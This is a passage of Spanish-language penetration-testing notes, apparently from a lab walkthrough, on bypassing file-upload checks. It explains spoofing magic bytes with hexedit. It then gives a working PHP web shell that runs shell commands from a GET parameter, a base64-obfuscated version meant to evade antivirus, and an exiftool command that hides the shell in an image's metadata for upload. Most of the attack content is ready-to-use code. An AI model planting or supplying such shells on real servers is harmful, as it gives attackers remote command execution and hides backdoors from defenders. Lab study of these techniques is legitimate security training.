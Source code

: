 si le cambiamos la extension a `test.txt.jpg` y volvemos a verificar el tipo de archivo nos saldra el mismo resultado, esto se debe a que los numeros magicos no esta modificados, para ello podemos hacer lo siguiente:

```bash
sudo apt install hexedit
```

abrimos el archivo con esa herramienta y modificamos los primeros bytes segun el tipo de dato a simular:

[https://en.wikipedia.org/wiki/List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)

```bash
hexedit test.txt.jpg
```

una vez modificado damos **ctrl+x, yes y escribimos el nombre del archivo**, ahora si verificamos el tipo de archivo debera mostrar al cual modificamos los numeros magicos.


podemos tambien con **exiftools** agregar uhna sentencia PHP dentro de una imagen legitima para que se ejecute segun la configuracion del servidor:

tenemos la siguiente webshell:

```php
<?php  
 $cmd = $_GET["wreath"];  
 if(isset($cmd)){  
 echo "<pre>" . shell_exec($cmd) . "</pre>";  
 }  
 die();  
?>
```

en caso de tener un AV podemos ofuscarlo para su evasion:

[https://www.gaijin.at/en/tools/php-obfuscator](https://www.gaijin.at/en/tools/php-obfuscator)

resultado:

```php
<?php $l0=$_GET[base64_decode('d3JlYXRo')];if(isset($l0)){echo base64_decode('PHByZT4=').shell_exec($l0).base64_decode('PC9wcmU+');}die();?>
```

lo colocamos, escapando los caracteres especiales como $, denrto de la iumagen con **exiftool**

```bash
sudo apt install exiftool
```

```bash
exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" shell-USERNAME.jpeg.php
```

lo cargamos y al invocarlo deberia funcionar la webshell.

## Cargas de archivos limitadas
